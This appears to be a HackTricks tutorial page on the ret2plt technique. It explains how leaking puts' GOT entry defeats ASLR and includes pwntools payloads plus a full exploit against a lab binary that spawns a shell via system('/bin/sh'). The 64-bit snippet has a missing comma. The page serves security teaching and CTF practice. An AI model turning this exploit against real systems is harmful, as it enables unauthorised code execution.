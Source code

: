 # Ret2plt

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

The goal of this technique would be to **leak an address from a function from the PLT** to be able to bypass ASLR. This is because if, for example, you leak the address of the function `puts` from the libc, you can then **calculate where is the base of `libc`** and calculate offsets to access other functions such as **`system`**.

This can be done with a `pwntools` payload such as ([**from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)):

```python
# 32-bit ret2plt
payload = flat(
    b'A' * padding,
    elf.plt['puts'],
    elf.symbols['main'],
    elf.got['puts']
)

# 64-bit
payload = flat(
    b'A' * padding,
    POP_RDI,
    elf.got['puts']
    elf.plt['puts'],
    elf.symbols['main']
)
```

Note how **`puts`** (using the address from the PLT) is called with the address of `puts` located in the GOT (Global Offset Table). This is because by the time `puts` prints the GOT entry of puts, this **entry will contain the exact address of `puts` in memory**.

Also note how the address of `main` is used in the exploit so when `puts` ends its execution, the **binary calls `main` again instead of exiting** (so the leaked address will continue to be valid).

> [!CAUTION]
> Note how in order for this to work the **binary cannot be compiled with PIE** or you must have **found a leak to bypass PIE** in order to know the address of the PLT, GOT and main. Otherwise, you need to bypass PIE first.

You can find a [**full example of this bypass here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). This was the final exploit from that **example**:

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## Other examples & References

- [https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html)
  - 64 bit, ASLR enabled but no PIE, the first step is to fill an overflow until the byte 0x00 of the canary to then call puts and leak it. With the canary a ROP gadget is created to call puts to leak the address of puts from the GOT and the a ROP gadget to call `system('/bin/sh')`
- [https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html)
  - 64 bits, ASLR enabled, no canary, stack overflow in main from a child function. ROP gadget to call puts to leak the address of puts from the GOT and then call an one gadget.

{{#include ../../../banners/hacktricks-training.md}}



